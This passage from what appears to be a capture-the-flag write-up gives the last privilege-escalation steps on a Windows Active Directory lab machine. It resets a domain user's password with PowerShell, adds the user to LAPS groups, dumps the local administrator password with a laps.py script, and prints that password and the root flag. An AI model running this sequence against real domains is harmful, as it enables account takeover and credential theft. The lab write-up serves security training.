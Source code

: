 ```
$pwd = ConvertTo-SecureString 'Password123#' -AsPlainText -Force
Set-DomainUserPassword -identity gibdeon -AccountPassword $pwd
```

Then to add him to the group:
```
$cred = New-Object System.Management.Automation.PSCredential('LicorDeBellora\Gibdeon',$pwd)
Add-AdGroupMember -Identity 'laps adm' -Members gibdeon -Credential $cred
Add-AdGroupMember -Identity 'laps read' -Members gibdeon -Credential $cred
```

Going to use python script to dump out the LAPS stuff.
```
python3 laps.py -u gibdeon -p 'Password123#' -d LicorDeBellota.htb
PIVOTAPI sDTpHAOxbmf057TUYn80
```

Then psexec as administrador (spainsh box)

root.txt
```
C:\Users\cybervaca\Desktop> type root.txt
8c7f8307377ab24438eb6a45834129a4
```


Fin